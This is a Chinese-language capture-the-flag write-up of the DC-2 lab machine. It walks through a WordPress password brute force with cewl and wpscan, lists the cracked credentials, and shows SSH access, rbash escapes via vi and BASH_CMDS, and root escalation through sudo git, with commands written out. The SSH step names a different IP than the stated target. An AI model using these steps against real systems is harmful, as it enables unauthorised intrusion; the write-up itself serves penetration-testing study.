# 前言

靶机：`DC-2`，IP地址为`192.168.10.13`

攻击：`kali`，IP地址为`192.168.10.2`

都采用`VMWare`，网卡为桥接模式

# 主机发现

使用`arp-scan -l`或者`netdiscover -r 192.168.10.1/24`



# 信息收集 

## 使用nmap扫描端口



## 网站信息探测

访问80端口默认界面，但是访问IP时，跳转到一个域名`dc-2`，所以这里对该IP进行绑定该域名，编辑文件`/etc/hosts`，再次访问80端口即可成功访问



并且这时候发现网站中的显示涉及到`wordpress`CMS，尝试使用`whatweb`等工具进一步验证，发现为`wordpress 4.7.10`版本



# 网站漏洞寻找

发现`flag1`，查看，提示可能需要使用`cewl`工具来生成字典，用于密码破解



那么使用`cewl`生成一个针对网站的字典文件`words`，这个是生成在当前目录下的

```shell
cewl http://dc-2 -w words -m 3
```

使用针对`wordpress`的扫描工具`wpscan`

```shell
wpscan --url http://dc-2
```



那么进一步进行用户名枚举，发现三个用户名

```shell
wpscan --url http://dc-2 -e u
```



尝试进行密码暴力破解，有两组成功

```shell
wpscan --url http://dc-2 -e u -P words
```



| 用户名  | 密码         |
| ------- | ------------ |
| `jerry` | `adipiscing` |
| `tom`   | `parturient` |

对于`wordpress`，默认的登录界面为`wp-login.php`，当然，如果默认改变，可以使用目录扫描爆破工具进行扫描，这里使用`gobuster`进行扫描一次

```shell
gobuster dir -u http://dc-2 -w /usr/share/wordlists/dirb/big.txt -x php,html,txt,md -d -b 404,403
```



# ssh登录至tom

访问`wp-login.php`界面，然后使用上面的两组账户进行登录，根据`flag1`提示，下一个`flag`就在其中一个账户下，登录`jerry`账号后，发现`flag2`



把其内容翻译就是：

"如果您无法利用 WordPress 并走捷径，还有另一种方法。

希望您找到了另一个切入点。"

想了一下，当前使用`wordpress`登录的账号是非管理员的，也就是并不能写入文件，那么 插件什么的，并无法利用。

那么当前有两组用户名和密码，还有7744的`ssh` 服务，猜测这里可能存在具有`ssh`登录的点

```shell
ssh tom@192.168.10.4 -p 7744
```

# rbash逃逸

发现可以登录成功，只是登录之后，当前用户`tom`的`bash`是具有限制的，也就是`rbash`

测试一番后，发现`/`不被允许使用



那么使用`help`查看一下，主要就是发现`compgen`可用



使用`compgen -c`列出当前可用的命令，除了上面发现的，还发现几个命令



`ok`，那么就可以进行`rbash`逃逸了，如果不清楚的话，可以进行百度搜索，因为这里的`/`不被允许使用，所以对于`less、vi`等可能无法进行逃逸

那么直接调用命令时涉及到`/`就不被允许，那么定义一个变量，然后通过变量进行执行，这个变量可以是`/bin/sh`，前面也可以看到`set`是可以使用的，那么就可以通过这个命令进行操作

直接使用`set`命令可以看到相关问题



这设置的是系统层面的，并且当前用户并没有权限，所以无法直接在这里允许`set`，但是可以通过与`vi`结合使用，来做一个临时的

```shell
#随便编辑一个文件，只要进入vi编辑即可
vi test
#进入后不要进入编辑模式，直接输入 :  以及后面的变量
:set shell=/bin/sh
#在vi中再次执行一次即可
:shell
```

进入到一个临时的`sh`中，但是环境变量并没有改变，好在前面的`export`可用，所以再设置一个临时环境变量

```shell
export PATH=/bin:$PATH
export PATH=/usr/bin:$PATH
```

环境变量成功后，发现`cat`命令成功，说明`rbash`逃逸成功



这里的`flag3`提示我，最好使用`su`切换到用户`jerry`，然后输入上面的密码`adipiscing`

```shell
su jerry
```

# sudo提权至root

可以，登录成功，并查看`flag4`，提示`git`的提权



那么搜索一下，`git`命令是具有SUID还是`sudo`

```shell
find / -perm -4000 -print 2>/dev/null
sudo -l
```



对于`git`的`sudo`提权，方法很多，可以借助网站`gtfobins.github.io`搜索



使用其中一个进行测试

```shell
sudo git -p help config
!/bin/sh
```

使用上面命令后，提权成功


切换到`root`的主目录，看到最终`flag`




# 总结

该靶场考察以下几点：

1. 网站指纹识别，以及`wordpress`的一些默认配置的使用以及`wpscan`的使用
2. `cewl`的使用，该工具是通过爬取网站的信息作为单词，可用作用户名及密码等
3. `rbash`的逃逸，方式很多，具体问题具体分析
4. `sudo`提权的一些方式，这里是`git`相关的

## 额外

还有一种`rbash`逃逸，是在`BASH_CMDS`是可修改时，可以利用，这个可以通过`set`命令查看是否有无，具体能否修改可以测试一下



然后通过下面代码执行

```shell
#直接在终端输入
BASH_CMDS[a]=/bin/sh;a
#这时候就会获取一个sh

#再设置临时环境变量
export PATH=/bin:$PATH
export PATH=/usr/bin:$PATH
```


